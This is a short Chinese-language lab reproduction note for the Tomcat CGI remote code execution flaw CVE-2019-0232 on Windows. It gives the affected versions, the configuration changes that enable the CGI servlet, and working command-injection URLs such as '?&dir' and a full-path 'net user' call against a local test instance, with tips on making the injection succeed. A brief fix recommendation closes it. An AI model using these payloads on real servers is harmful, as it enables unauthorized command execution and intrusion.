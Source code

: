 ## Tomcat 远程代码执行（CVE-2019-0232）

影响范围：9.0.0.M1 ~ 9.0.17, 8.5.0 ~ 8.5.39 ， 7.0.0 ~ 7.0.93
影响系统： Windows

测试环境：
[Apache Tomcat v8.5.39](https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.39/bin/apache-tomcat-8.5.39-windows-x86.zip)
JDK 1.8.0_144

修改配置：
web.xml
```
<init-param>
  <param-name>debug</param-name>
  <param-value>0</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
```
![CVE-2019-0232-01.png](./pic/CVE-2019-0232-01.png)

content.xml
![CVE-2019-0232-02.png](./pic/CVE-2019-0232-02.png)

在`Tomcat\webapps\ROOT\WEB-INF`新建`cgi`目录，并创建`lxhsec.bat`文件，内容任意。

访问`http://127.0.0.1:8080/cgi-bin/lxhsec.bat?&dir`
![CVE-2019-0232-03.png](./pic/CVE-2019-0232-03.png)

执行命令`http://127.0.0.1:8080/cgi-bin/lxhsec.bat?&C:/WINDOWS/system32/net+user`
![CVE-2019-0232-04.png](./pic/CVE-2019-0232-04.png)

Note:net命令的路径要写全，直接写net user，Tomcat控制台会提示`net`不是内部命令，也不是可运行的程序，另 必须使用+号连接，使用`空格`，`%2B`都会执行失败，控制台报错。


### 修复建议
这个默认是关闭的，如果打开了请关闭，若需使用请升级版本。
